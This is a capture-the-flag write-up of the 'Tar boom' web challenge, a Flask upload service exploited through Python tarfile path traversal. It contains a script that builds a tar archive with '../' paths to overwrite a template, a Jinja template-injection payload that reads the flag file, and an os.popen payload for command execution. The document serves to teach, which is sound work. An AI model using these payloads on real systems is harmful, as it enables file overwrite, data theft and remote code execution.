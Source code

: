 ```yaml
---
title: Tar boom
author:
description:
categories:
    - web
year: 2025
---
```


# TL;DR<a id="TL;DR"></a>
    **- Challenge Setup:** We are given a small **Python Flask** web application allowing the upload of tar archives being unpacked by the backend.
    **- Vulnerability:** The used **Python** module **tarfile** is vulnerable to path traversal attacks via the file names of the extracted files, allowing the overwrite of arbitrary files.
    **- Exploitation:** Overwriting the `result.html` template containing an **SSTI** payload results in **RCE**.

# 1. Introduction<a id="introduction"></a>
Connecting to the server, we are greeted by a simple landing page inviting us to upload a tar archive:

![landing page](ctf/writeups/dvctf/tarboom/landing.png "landing page")

Uploading a tar archive with random test files leads us to the following overview showing the tree of files and directories the archive consists of:

![uploaded benign tar archive](ctf/writeups/dvctf/tarboom/normal_upload.png "uploaded benign tar archive")

# 2. Reconnaissance<a id="reconnaissance"></a>
Analyzing the code reveals that only tar files are accepted. Trying to upload any other file format will be rejected. During upload, the backend will unpack the archive with the **Python** module **tarfile**:

```python
def extract_tar(tar_path, extract_dir):
    try:
        with tarfile.open(tar_path, 'r:*') as tar:
            print(f"Extracting '{tar_path}' to '{extract_dir}'...")
            tar.extractall(path=extract_dir, filter='fully_trusted')
            print("Extraction completed successfully.")
    except tarfile.TarError as e:
        print(f"Error: Failed to extract the TAR file. {e}")
```

This processing is needed to print out the file tree after the upload. The extracted files are saved at `uploads/<tar-archive-name>`.

# 3. Vulnerability Description<a id="vulnerability description"></a>
The use of the **Python** module **tarfile** is well known for a directory traversal vulnerability and even got its own [CVE](https://nvd.nist.gov/vuln/detail/cve-2007-4559). In the code, the `extractall` function simply concatenates the current path with the file name:

```python
dirpath = os.path.join(path, tarinfo.name)
```

So by simply having a file name with several `../` as a prefix will result in arbitrary file write. To make it easier to generate this kind of archive, we can use the following script, adding the content of specific files with a name of your choice to your malicious tar archive:

```python
import tarfile

overwrites = [
    ('../../templates', 'result.html'),
]

with tarfile.open('malicious.tar', 'w') as tar:
    for directory, filename in overwrites:
        tar.add(filename, arcname=f'{directory}/{filename}')
```

This vulnerability was never fixed and probably will never be fixed. The previous maintainer even wrote an [article](https://www.gustaebel.de/lars/CVE-2007-4559.html) about the problems around fixing this vulnerability. This is not the only library being vulnerable to this kind of attack. There is a whole research around this topic and you might be interested in reading further in [Zip Slip Snyk](https://security.snyk.io/research/zip-slip-vulnerability) and [Zip Slip Github](https://github.com/snyk/zip-slip-vulnerability).

# 4. Exploitation<a id="exploitation"></a>
Although exploiting this vulnerability seems easy, you have to be careful picking a target for the arbitrary file write. You might think we could just simply overwrite the `scripts/tarExtract.py` file and thus serving our own **Python** code, which will be executed when this functionality is called. Another idea could be exploiting the **Python PATH** by simply adding an `os.py` file right next to the `app.py`. But sadly, both of these ideas won't work out as **Python** will always immediately load the needed modules into the memory. So once the **Python** modules are loaded, replacing the corresponding files won't do anything. As a side note, if the **Flask** server was started with `debug=True`, the aforementioned approaches will work, as the server will restart and reload the modules when file changes are detected. But in this challenge, this config is turned off. Luckily enough, **Python** will only lazy load all of the code. This means that only when needed for the first time, the modules are loaded into memory. Thus we have to find a file that is not immediately needed when connecting to the server. In this case, only the `result.html` is not immediately loaded. To get an arbitrary file read, which is enough to obtain the flag, we can simply extend the template with an **SSTI** as follows:

```html
<pre>
{{ get_flashed_messages.__globals__.__builtins__.open("/app/flag.txt").read() }}
{% for line in tree %}
{{ line }}
{% endfor %}
</pre>
    <a href="/">Upload another backup</a>
</div>
```

This will give us the flag:

![flag extracted](ctf/writeups/dvctf/tarboom/flag.png "flag extracted")

We can even escalate this further to **RCE** to fully pwn the web server with `{{ get_flashed_messages.__globals__['os'].popen('ls -alps').read() }}`:

![rce](ctf/writeups/dvctf/tarboom/rce.png "rce")

But keep in mind you will only be able to change the `result.html` template via the very first malicious upload, as afterwards, also this template is already loaded into memory by **Python**.


# 5. Mitigation<a id="mitigation"></a>
Although you might think you are safe because you got a filter, only allowing specific file extensions, won't be enough. Processing user input with any module should always be enjoyed with caution. Make sure to read the documentation and especially the security warnings to prevent vulnerabilities like in this challenge.

# 6. Flag<a id="flag"></a>
DVCTF{rWyjzMYiQ2Jgx8wLP8kA}

# 7. References<a id="references"></a>
- https://security.snyk.io/research/zip-slip-vulnerability
- https://github.com/snyk/zip-slip-vulnerability
